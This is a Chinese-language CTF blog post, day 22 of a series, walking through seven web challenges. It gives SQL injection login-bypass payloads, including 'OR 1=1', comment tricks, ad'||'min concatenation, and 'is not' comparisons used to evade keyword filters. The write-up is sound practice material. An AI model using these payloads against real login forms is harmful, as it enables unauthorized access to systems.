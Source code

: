 ```yaml
---
title: IThome 2024 鐵人賽 一直刷 CTF - Day22
tags:
  - IThome 2024 鐵人賽
  - CTF
  - 資安
categories:
  - IThome 2024 鐵人賽
  - 一直刷 CTF
abbrlink: 9060
date: 2024-09-25 00:00:00
lang:
---
```


## 前言

本日進度：

- [x] 7 題 web

<!--more-->

## Writeup

### 第一題：SQL Direct

![Image](https://i.imgur.com/gdwtG9F.png)

查了一下知道可以用 \d 先看看 table 的 schema，最後再用 `select * from flags;` 看看 table 的內容

![Image](https://i.imgur.com/hG7qOvE.png)

### 第二題：Irish-Name-Repo 1

簡單的 SQL Injection，用 `' OR 1=1; # --` 輸入就可以了

![Image](https://i.imgur.com/lXfbGfJ.png)

### 第三題：Irish-Name-Repo 2

這題好像是會把 `OR` 過濾掉，所以試了一下之後只要用 `admin'; -- #` 就可以了

![Image](https://i.imgur.com/uCvR9VP.png)

### 第四題：Irish-Name-Repo 3

這題只有 password 可以輸入，試試看 `' OR 1=1; -- #` 發現不行，想不到其他方法就開個 Burp Suite 看一下，發現他後面會自帶一個 `&debug=0` ，試試看改成 1 ，會發現他把 SQL query 顯示出來了

![Image](https://i.imgur.com/snbplhQ.png)

我發現他把 `OR` 變成 `BE` 了，似乎是 `rot13` ，所以我把 `OR` 改成 `BE` ，就成功得到 flag 了

![Image](https://i.imgur.com/FTfHNas.png)

### 第五題：Web Gauntlet

#### round 1

filter: `or`
payload: `admin'; -- #`

#### round 2

filter: `or`, `and`, `like`, `=`, `--`
payload: `admin'; #`

#### round 3

filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`

但試了好久才她好像還擋了空白 OwO

payload: `admin';#`

#### round 4

filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`, `admin`

查了一下發現 `||` 可以把兩個字串連接起來，所以把 `admin'` 改成 `ad'||'min'` 就可以了

payload: `ad'||'min';#`

#### round 5

filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`, `union`, `admin`

payload: `ad'||'min';#`

然後到 filter.php 就可以看到 flag 了

![Image](https://i.imgur.com/Z5RkA1w.png)

### 第六題：Web Gauntlet 2

filter: `or and true false union like = > < ; -- /* */ admin`

試了才發現好像 `#` 根本沒有起到註解的用途，前面好像是放辛酸的，只好修改 password 使得 query 成立，所以就把 password 設為 `a' is not 'b` 就可以了

payload: username `ad'||'min`, password `a' is not 'b`

![Image](https://i.imgur.com/dZC96h4.png)

### 第七題：Web Gauntlet 3

這題好像跟上一題一模一樣? 就把上提的 payload 照抄就過了

![Image](https://i.imgur.com/OvTrgIg.png)

## 參考資料

- [【成大資安社社課】手把手Python教學 --- 從入門到入侵](https://youtu.be/-cMOv9QudOk?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 1](https://youtu.be/N60VGmhfhy0?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 2](https://youtu.be/PqydmB-IoYc?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】不是web3.0的 web3 - Vincent55](https://youtu.be/xjnAnrfApJo?list=PLFFwfkaPB2mqsfIQvdoT6xc0CziXhmrEV)
- [【成大資安社社課】Crypto 1](https://youtu.be/nVXA9S9Y07M?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Crypto 2](https://youtu.be/LtWiQxbMjwg?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Linux 基礎指令與使用者管理](https://youtu.be/8WVrUqjBsRE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】淺談網路與 H T T P](https://youtu.be/pNhHXhPkNcE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
